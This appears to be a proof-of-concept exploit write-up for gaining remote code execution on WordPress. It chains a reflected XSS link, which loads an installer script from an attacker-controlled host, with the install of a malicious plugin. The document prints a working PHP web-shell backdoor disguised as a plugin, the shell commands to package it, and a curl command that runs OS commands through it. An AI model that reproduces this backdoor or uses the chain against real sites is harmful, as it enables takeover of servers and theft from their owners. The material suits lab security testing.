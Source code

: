 # [RCE] Install Plugin

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [create WordPress plugin containing PHP payload] backdoor source code (`WP_PoC.php`)

```
<?php
/**
 * Plugin Name: WP RCE PoC - Install Plugin
 * Version: 1.0.0
 * Author: WP Admin
 * Author URI: https://localhost
 * License: GPL2
 */
if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
?>
```

2. [create WordPress plugin containing PHP payload] create WordPress plugin

```
zip WP_PoC.zip WP_PoC.php
```

3. [create WordPress plugin containing PHP payload] base64-encode generated plugin file (**NOTE**: avoids encoding issues)

```
cat WP_PoC.zip | base64 -w0 > WP_PoC.txt
```

4. victim user (with administrative privileges) logs in

http://192.168.5.10/wp-login.php

5. victim user clicks link

```
http://192.168.5.10/test/rxss.php?q=<script src=http://192.168.5.13/installPluginWP.js></script>
```

6. execute OS command

```
curl -s "http://192.168.5.10/wp-content/plugins/WP_PoC/WP_PoC.php?pass=test&cmd=id" | head -n 1
```

7. [optional] uninstall plugin

*WordPress ➔ Plugins ➔ Installed Plugins ➔ [WP RCE PoC - Install Plugin] Delete ➔ OK*

## Screenshots

![Image](screenshots/WordPress_-_install_plugin_-_1-1.png)
